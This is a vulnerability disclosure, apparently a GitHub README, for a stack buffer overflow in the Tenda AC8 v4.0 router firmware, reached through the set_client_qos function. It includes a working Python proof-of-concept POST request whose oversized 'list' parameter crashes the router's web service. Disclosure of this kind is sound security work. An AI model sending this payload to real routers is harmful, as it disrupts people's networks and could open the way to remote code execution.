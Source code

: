 # Tenda Router Vulnerability on set_client_qos function
> vendor:Tenda
>
> product:AC8
>
> version:v4.0 V16.03.34.06
>
> type:Stack Overflow  

# Overview 
- Firmware download website: https://www.tenda.com.cn/download/detail-3518.html

## Vulnerability Details

The Tenda AC8V4.0 V16.03.34.06 has a buffer overflow vulnerability. The vulnerability is triggered in the `formSetQosBand` function when it retrieves the value of the list parameter at line 30, and ultimately causes an overflow at line 50 in the `set_client_qos` function during the sscanf call. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.
![scqv_websgetvar](images/scqv_websgetvar.png)
![scqv_set_clinet_qos](images/scqv_set_clinet_qos.png)
![scqv_sscanf.png](images/scqv_sscanf.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```python
import requests
url = "http://192.168.1.100:80/goform/SetNetControlList"
bindnum_value = "aaaaa"
list_value = "a" + "\x12" * 500 + "z" * 500  

data = {
    "bindnum": bindnum_value,
    "list": list_value
}

response = requests.post(url, data=data)
```

![python-poc-crash](images/python_crash_scqv.png)

![httpd-segmentfault](images/httpd_crash_scqv.png)


# Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.